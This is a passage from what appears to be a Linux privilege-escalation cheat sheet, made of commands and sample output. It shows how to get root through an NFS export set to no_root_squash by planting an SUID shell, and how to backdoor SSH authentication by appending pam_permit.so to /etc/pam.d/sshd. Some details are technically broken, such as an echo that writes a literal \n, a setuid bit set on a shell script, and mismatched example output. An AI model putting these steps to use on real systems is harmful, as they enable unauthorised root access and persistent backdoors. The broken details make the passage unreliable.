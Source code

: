     ```bash
    showmount -e 192.168.1.10
    ```
    **Example Output**:
    ```
    /data *(rw,no_root_squash)
    ```
    - Mount the share and create an SUID binary:
      ```bash
      mount -t nfs 192.168.1.10:/data /mnt
      echo '#!/bin/bash\n/bin/sh' > /mnt/suid
      chmod +s /mnt/suid
      ```
    - Execute on the target:
      ```bash
      /data/suid
      ```
      **Example Output**:
      ```
      # whoami
      root
      ```
    - **Purpose**: Gain root access via NFS misconfiguration.
- **PAM Misconfigurations**:
  - **Technique**: Exploit weak PAM configurations to bypass authentication.
  - **Execution**: Check PAM configs.
    ```bash
    cat /etc/pam.d/sshd
    ```
    **Example Output**:
    ```
    auth sufficient pam_permit.so
    ```
    - Modify to allow backdoor access (if writable).
      ```bash
      echo "auth sufficient pam_permit.so" >> /etc/pam.d/sshd
      ```
      - Log in without credentials:
        ```bash
        ssh user@192.168.1.20
        ```
        **Example Output**:
        ```
        # whoami
        user
        ```
    - **Purpose**: Gain privileged access by bypassing authentication.
